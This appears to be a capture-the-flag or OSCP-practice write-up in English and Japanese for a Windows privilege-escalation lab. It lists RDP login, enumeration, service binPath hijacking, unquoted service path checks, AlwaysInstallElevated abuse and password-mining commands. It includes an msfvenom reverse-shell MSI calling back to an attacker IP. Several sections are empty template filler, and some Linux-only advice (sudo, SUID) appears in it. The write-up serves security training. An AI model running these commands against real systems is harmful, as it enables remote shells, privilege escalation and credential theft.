

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | Not specified |
| Primary Entry Vector      | rdp-login, windows-enumeration |
| Privilege Escalation Path | service-misconfig, alwaysinstallelevated, unquoted-service-path |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (or log not saved)


## Nmap


### Not implemented (or log not saved)


### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

このルームは単一の脆弱性ではなく、Windows 権限昇格の代表パターンを横断的に検証する構成です。  
以下は実運用で再利用しやすい流れに整理した完成版メモです。

## 1. Initial Access (RDP)

```
xfreerdp /u:user /p:password321 /v:$ip /drive:.,kali-share +clipboard /cert:ignore /sec:rdp
```

ログイン後、最初に実行すべき列挙:

```
whoami
whoami /priv
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

## 2. Core PrivEsc Checks

### 2-1. Service Misconfiguration

```
sc query state= all
sc qc <service_name>
accesschk.exe /accepteula -uwcqv "Users" <service_name>
sc config <service_name> binPath= "C:\PrivEsc\reverse.exe"
sc stop <service_name>
sc start <service_name>
```

### 2-2. Unquoted Service Path

```
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" | findstr /i /v "\""
icacls "C:\Program Files\Vuln App\"
```

### 2-3. AlwaysInstallElevated

```bash
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f msi -o privesc.msi
msiexec /quiet /qn /i C:\PrivEsc\privesc.msi
```

### 2-4. Autorun / Startup Abuse

```
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run"
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

### 2-5. Saved Credential / Config Mining

```
cmdkey /list
findstr /si password *.txt *.xml *.ini *.config
Get-ChildItem C:\ -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password|passwd|credential"
```

## 3. Practical Flow for This Arena

1. 低権限RDPで入る
2. `whoami /priv` と `accesschk` で exploitability を絞る
3. `AlwaysInstallElevated` または Service/Startup 系の書き込み不備を突く
4. 管理者権限シェルで `root proof` を回収

## 4. Notes

Arena 系は「網羅的列挙の型」を体に覚えさせる用途です。  
OSCP本番では 1 つずつバラバラに見える misconfiguration を、同じチェックリストで潰せるかが勝負になります。

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

```
whoami
whoami /priv
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
cmdkey /list
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- msfvenom
- winpeas
- sudo
- GTFOBins
